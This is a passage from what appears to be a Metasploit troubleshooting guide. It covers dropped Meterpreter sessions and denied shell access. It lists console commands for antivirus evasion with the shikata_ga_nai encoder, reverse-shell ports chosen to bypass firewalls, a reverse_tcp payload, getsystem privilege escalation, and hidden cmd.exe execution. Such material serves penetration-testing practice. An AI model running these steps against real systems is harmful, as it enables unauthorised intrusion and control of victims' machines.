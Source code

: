 
### **❌ Problem 3: Meterpreter Session Drops Immediately**
**What You See:**
```bash
[*] Meterpreter session 1 opened (10.10.31.2:4444 -> 10.0.16.162:49747)
[*] Session 1 closed.
```

**How to Fix:**
```bash
# Step 1: Try different payload encoders
set encoder x86/shikata_ga_nai
# Help avoid antivirus detection

# Step 2: Use different connection ports
set LPORT 443
set LPORT 53
set LPORT 8080
# Try ports that may bypass firewalls

# Step 3: Check session handling
sessions -l
sessions -i 1
# Verify and interact with available sessions

# Step 4: Try alternative payloads
set payload windows/shell/reverse_tcp
# Use basic shell if meterpreter fails
```

**Solutions:**
- Use payload encoders to evade antivirus detection
- Try different ports for reverse connections (443, 53, 8080)
- Check firewall rules aren't blocking reverse connections
- Use basic shell payloads if meterpreter consistently fails

---

### **❌ Problem 4: Cannot Access System Shell**
**What You See:**
```bash
meterpreter > shell
[-] Failed to execute command: Operation failed: Access is denied.
```

**How to Fix:**
```bash
# Step 1: Check current user privileges
getuid
# Verify you have sufficient privileges

# Step 2: Attempt privilege escalation
getsystem
# Try to escalate to SYSTEM level

# Step 3: Use meterpreter commands instead
sysinfo
ps
# Use built-in meterpreter commands

# Step 4: Try alternative shell methods
execute -f cmd.exe -i -H
# Interactive command shell execution
```
